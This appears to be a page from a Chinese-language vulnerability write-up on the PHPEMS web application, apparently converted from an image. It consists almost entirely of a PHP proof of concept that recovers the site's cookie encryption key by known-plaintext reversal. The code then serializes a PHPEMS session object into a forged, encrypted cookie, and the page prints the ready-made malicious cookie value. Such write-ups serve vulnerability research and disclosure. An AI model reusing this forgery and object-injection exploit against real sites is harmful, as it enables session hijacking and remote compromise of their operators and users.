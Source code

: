 ```php
    $info = "%2592%25A2%25A4%25A0%25F3%25A9%25AE%25A2%259D%2599%25C5%25DD%25E7%25D9%25DF%25D8%25C2%25D9%259DVk%25E9%25A8%259AS%25B3e%258F%258A%25AE%25BFii%2599%25D4%259C%25DAl%25A5%259A%2599%25A8%25B8%25AD%25DA%259E%25A7%2599%2584%25D6%259E%2595d%25DB%25A1%25CBU%25ABt%2580%258C%25BE%2598ok%258A%25E4%25CB%25EB%25A9%25DD%25D8%25D1%25E0%25C2%259A%25AF%25D9%25B0%25A2%258E%2592jfg%25A4%259E%2595Q%25A7t%2580%258C%25BE%2598gg%25A2%2593%25D9%25DD%25A9%25E7%25D2%25D2%25E5%25C6%25E1%25E1%25CB%25E2%25D2%25C1%25D9%25ADVk%25DF%25A8%2598X%25A9y%2594%2589%257D%2594ia%25A3%25EE";   //本地环境
    $info = urldecode($info);  
    $info = urldecode($info);  
    $info = substr($info,64,32);  
    function reverse($payload1,$payload2)  
    {  
        $il = strlen($payload1);  
        $key= "";  
        $kl = 32;  
        for($i = 0; $i &lt; $il; $i++)  
        {  
            $p = $i%$kl;  
            $key .= chr(ord($payload1[$i])-ord($payload2[$p]));  
        }  
        return $key;  
    }  

    define(CS1,reverse($info, ':"sessionip";s:9:"127.0.0.1";s:1'));  
    echo CS1;  
    function encode($info)  
    {  
        $info = serialize($info);  
        $key = CS1;  
        $kl = strlen($key);  
        $il = strlen($info);  
        for($i = 0; $i &lt; $il; $i++)  
        {  
            $p = $i%$kl;  
            $info[$i] = chr(ord($info[$i])+ord($key[$p]));  
        }  
        return urlencode($info);  
    }  
    $session = new \PHPEMS\session();  
    $array = array("sessionid"=&gt;"123123123", $session);  
    echo serialize($array)."\n";  
    echo(urlencode(encode($array)))."\n";  
}
```

然后得到Cookie

```php
%2595%259Ces%25AF%25D9lon%2586%25D9%25C8%25D7%25D6%25A0%25A1%25A2%25CA%2594X%259D%25AC%259Cio%2585b%2597hj%2597%2597e%2594f%255Bo%25CFlfo%25B3%25A0%2594%2598%259DY%2582%257C%25B1u%2583%25B5%2595%25D5%2595%25A8%25D6%259A%25D4%25A3%255B%259F%2597n%25DD%25A6sm%25A0T%25A9%2599%25D7%25D9%25CC%25D3%25D1%25A0%2596V%259C%25A3p%2599s%2584af%2594b%2596fj%2587%259F%25A7%259CisV%25D6%2596%25A5%25A7%25D5%25D2%2585%259F%25B2qcg%259BR%2586%25AA%2589%25A7%257D%2588%25BF%25A1%25C9%25A4%25AC%25D6%25D0V%259Ces%25AF%25D9lgk%259E%2588c%25B4%25AB%2587w%2581%25B4%258C%25A6%25C6%25A8%25D5%25A1%25A1c%2595%25C7Wt%25B4%259Ee%2594m%255B%2584%25AE%2582%257B%2581%25B7%25C2%25D3%25C9%25D3%259B%25A1V%259Bap%25DD%25AC%259Cbe%259DSe%2585%2581%25B5%25A9%2581%25B5%258F%25A9%2599%25D6%2596%25A54%25D0%25CF%25D1%25CF%25CC%259BTo%25CAjf%259D%25B6%25D5jm%259DS%25D9%2596%259B%25D1%25C9%25A4%25D4%2598%255Bo%25D9lnl%259E%2588%25DB%2596%25C2%25AC%25A5%2599%25D3P%25A9%25C7%25AD%2582%25A5%25A8%25C8%25A3%25D5%2596%25AC%25D8%25DB%25A3%25D4%2597vV%25CBcf%2595%25C8%25C9%2596%259D%2597p%2594%2595%2596i%2597%25C4%259B%25C7ek%25C8a%259Al%259F%2597%2594%259A%259Akl%2599%2588R%25AD%259C%25C9%25D8%25C8%2584%25D8%25AA%2597%25A6%25CF%2591%25A3%25C7v%2584%25A0%259A%25C4%2595%25D2%259E%25A7%2587%259FW%258F%2560%255Bo%25E3%25A5pf%259E%2588%25C7%25C6%2585r%2581n%2592bp%2584%2589%25AA%2580z%25B0%2584%25C1%25A5%259E%25D5%25C8%25A3%2584mjn%25E1%25A5pf%2594%25A0%2585d%25B3%257F%2582y%25AE%2583%2592%25D2%259E%25D2%2594%25A4c%259D%25CE%25A3%25A4%25CE%25C8V%259D%259Csd%25A1%25AF%25B3%25B1
```
